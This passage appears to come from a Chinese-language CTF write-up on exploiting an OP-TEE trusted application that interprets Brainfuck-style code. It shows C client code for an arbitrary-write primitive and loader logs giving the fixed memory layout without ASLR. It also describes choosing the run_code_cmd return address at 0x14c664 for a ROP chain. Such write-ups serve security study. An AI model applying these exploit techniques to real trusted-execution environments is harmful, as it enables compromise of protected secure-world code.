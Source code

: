 ```c {hide=true}
    op.params[2].tmpref.buffer = buf;
    op.params[2].tmpref.size = size+1;

    run_code(p_sess, &op);

    free(code);
}

void abwrite(TEEC_Session *p_sess, uint32_t tgt, void *src, size_t size) {
    TEEC_Operation op;

    char *code = (char *)calloc(size*3+1, sizeof(char));
    memset(code, ',', size);
    memset(code+size, '<', size);
    memset(code+size*2, '.', size);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_INOUT,
                     TEEC_VALUE_INOUT, TEEC_NONE);
    // param[0]: code
    // param[1]: input
    // param[2]: output
    op.params[0].tmpref.buffer = code;
    op.params[0].tmpref.size = size*3;
    op.params[1].tmpref.buffer = src;
    op.params[1].tmpref.size = size+1;
    op.params[2].value.a = tgt;
    op.params[2].value.b = (uint32_t)(size+1);

    run_code(p_sess, &op);

    free(code);
}
```

由于没有开启aslr，ta的加载地址和栈地址等是固定的，通过54321端口的log报错信息可以看到地址映射，程序基址映射到`0x00117000`，栈映射到`0x0014a000`，CA传入的参数映射到`0x00200000`和`0x00201000`：

```bash
E/LD:  region  0: va 0x00103000 pa 0x0e225000 size 0x002000 flags rw-s (ldelf)
E/LD:  region  1: va 0x00105000 pa 0x0e227000 size 0x00c000 flags r-xs (ldelf)
E/LD:  region  2: va 0x00111000 pa 0x0e233000 size 0x001000 flags rw-s (ldelf)
E/LD:  region  3: va 0x00112000 pa 0x0e234000 size 0x004000 flags rw-s (ldelf)
E/LD:  region  4: va 0x00116000 pa 0x0e238000 size 0x001000 flags r--s
E/LD:  region  5: va 0x00117000 pa 0x0e239000 size 0x01f000 flags r-xs [0]
E/LD:  region  6: va 0x00136000 pa 0x0e258000 size 0x014000 flags rw-s [0]
E/LD:  region  7: va 0x0014a000 pa 0x0e26c000 size 0x003000 flags rw-s (stack)
E/LD:  region  8: va 0x00200000 pa 0x40da0860 size 0x001000 flags rw-- (param)
E/LD:  region  9: va 0x00201000 pa 0x7fc42010 size 0x001000 flags rw-- (param)
```

~~覆盖`run_code`函数的返回地址`0x0014c5f4`~~（这里不能用`run_code`的返回地址，因为往下会覆盖到`context`导致rop被截断），因此我们`run_code_cmd`的返回地址`0x14c664`进行ROP。
